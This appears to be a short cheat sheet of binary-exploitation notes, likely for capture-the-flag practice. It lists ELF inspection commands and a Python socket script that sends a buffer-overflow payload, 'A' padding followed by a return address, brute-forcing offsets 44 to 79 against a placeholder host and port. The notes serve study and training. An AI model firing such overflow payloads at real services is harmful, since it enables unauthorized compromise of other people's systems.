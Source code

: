 # Misc

## General commands
```
file some-executable
checksec --file=some-executable
strace ./some-executable
rtrace ./some-executable
patchelf --set-interpreter /lib/my-ld-linux.so.2 ./some-executable
```

## Exploit without pwntools
### Basic python socket
```python
import socket
import time

def exploit(ip, port, x):
    payload = b"A" * x
    payload += b"\xb3\xba\x37\x13"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    time.sleep(0.3)

    s.sendall(payload + b"\n")
    print(s.recv(2048).decode(errors="ignore"))
    s.close()

for i in range(44, 80):
    exploit("x.x.x.x", 8080, i)
```

